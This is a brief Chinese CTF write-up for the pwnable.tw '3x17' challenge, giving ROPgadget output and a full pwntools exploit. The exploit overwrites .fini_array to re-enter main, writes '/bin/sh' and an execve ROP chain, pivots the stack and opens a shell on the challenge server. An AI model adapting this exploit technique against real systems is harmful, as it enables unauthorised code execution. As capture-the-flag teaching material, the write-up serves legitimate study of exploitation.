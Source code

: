 ROP链常见形式：[pop register]+[value]，即参数的值在后，ret指令在前

利用ROPgadget找到相应的地址

```
ROPgadget --binary 3x17 --only 'pop|ret' | grep "pop rax"

rop_syscall = 0x471db5
rop_pop_rax = 0x41e4af
rop_pop_rdx = 0x446e35
rop_pop_rsi = 0x406c30
rop_pop_rdi = 0x401696
```

## exp

```python
from pwn import *
context(arch="amd64",os='linux',log_level='debug')
myelf = ELF("./3x17")
#io = process(myelf.path)
#gdb.attach(io,"b * 0x471db5")
io = remote("chall.pwnable.tw",10105)

rop_syscall = 0x471db5
rop_pop_rax = 0x41e4af
rop_pop_rdx = 0x446e35
rop_pop_rsi = 0x406c30
rop_pop_rdi = 0x401696
bin_sh_addr = 0x4B419A

fini_array = 0x4B40F0
main_addr = 0x401B6D
libc_csu_fini = 0x402960
leave_ret = 0x401C4B

esp = 0x4B4100

def write(addr,data):
	io.recv()
	io.send(str(addr))
	io.recv()
	io.send(data)

write(fini_array,p64(libc_csu_fini)+p64(main_addr))

write(bin_sh_addr,"/bin/sh\x00")
write(esp,p64(rop_pop_rax))
write(esp+8,p64(0x3b))
write(esp+16,p64(rop_pop_rdi))
write(esp+24,p64(bin_sh_addr))
write(esp+32,p64(rop_pop_rdx))
write(esp+40,p64(0))
write(esp+48,p64(rop_pop_rsi))
write(esp+56,p64(0))
write(esp+64,p64(rop_syscall))
write(fini_array,p64(leave_ret))

io.interactive()
```



参考：

- https://xuanxuanblingbling.github.io/ctf/pwn/2019/09/06/317/
- https://ama2in9.top/2020/09/03/3x17/